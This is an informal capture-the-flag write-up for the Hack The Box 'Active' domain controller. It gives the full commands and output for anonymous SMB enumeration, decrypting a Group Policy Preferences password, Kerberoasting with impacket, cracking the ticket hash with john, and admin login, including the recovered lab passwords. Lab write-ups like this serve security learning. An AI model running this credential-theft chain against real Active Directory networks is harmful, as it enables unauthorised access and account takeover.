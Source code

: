 ```
Nmap scan report for 10.10.10.100
Host is up (0.034s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-04 17:23:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

first things first we see the domain so lets add it:
`echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts`

next lets try smbclient:
`smbclient -L //active.htb/ -N`

easy money:
```
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

lets check each share to see if anonymous has access:
`smbclient \\\\active.htb\\<sharename> -N`

Replication i am able to get into...

I look in all dirs and not much sticks out but policies:
```
cd Policies
recurse ON
prompt OFF
mget *
```

all the way in one {3....} policy under machine/preferences/ i find a group.xml file:
```
cat Groups.xml  
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

look like user:
active.htb\SVC_TGS
and encrypted pass:
`edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

so creds are:
```
Username: active.htb\SVC_TGS  
Password: GPPstillStandingStrong2k18
```

lets log back into smb and see if we can get user flag on desktop :D
`smbclient -U 'active.htb/SVC_TGS' //10.10.10.100/Users`

and i am in:
```
smb: \> ls
  .                                  DR        0  Sat Jul 21 10:39:20 2018
  ..                                 DR        0  Sat Jul 21 10:39:20 2018
  Administrator                       D        0  Mon Jul 16 06:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 01:06:44 2009
  Default                           DHR        0  Tue Jul 14 02:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  Public                             DR        0  Tue Jul 14 00:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 11:16:32 2018
```

on SVC_TGS desktop there she is.. user.txt
`mget user.txt`

on kali:
cat user.txt:
`ea7041ee397acc******`

---
### Prive Esc

instantly run:
```
impacket-GetUserSPNs 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -outputfile hash.txt -request

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2025-08-04 13:08:44.634595 
```

We used this because:

- We had **valid domain credentials** for a user (`SVC_TGS`).
    
- That user had enough permissions to **query Active Directory** for service accounts.
    
- We suspected there might be **Kerberoastable accounts** (i.e., accounts that have SPNs set).
    
- We were hoping one of those service accounts might be **privileged** (like `Administrator`).

so 
- When an SPN is **set** on a user account (usually a service account), the **Kerberos Ticket-Granting Service (TGS)** encrypts the service ticket using the **NTLM hash of that account**.
    
- If the password is weak, you can **brute-force the hash offline**.

so we have the hash.txt, lets try to crack it with john:
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs
```

complete!

```
john hash.txt --show

?:Ticketmaster1968

1 password hash cracked, 0 left
```

`Administrator:Ticketmaster1968`

now we have his creds!

once again lets just auth via smbclient and get root.txt off of admins desktop:
`smbclient -U 'active.htb/Administrator' //10.10.10.100/Users`

password is successfull

grab root.txt out of admins desktop:
`mget root.txt`

`cat root.txt `                           
`02b07faf9d6a08*******`

PWNED!
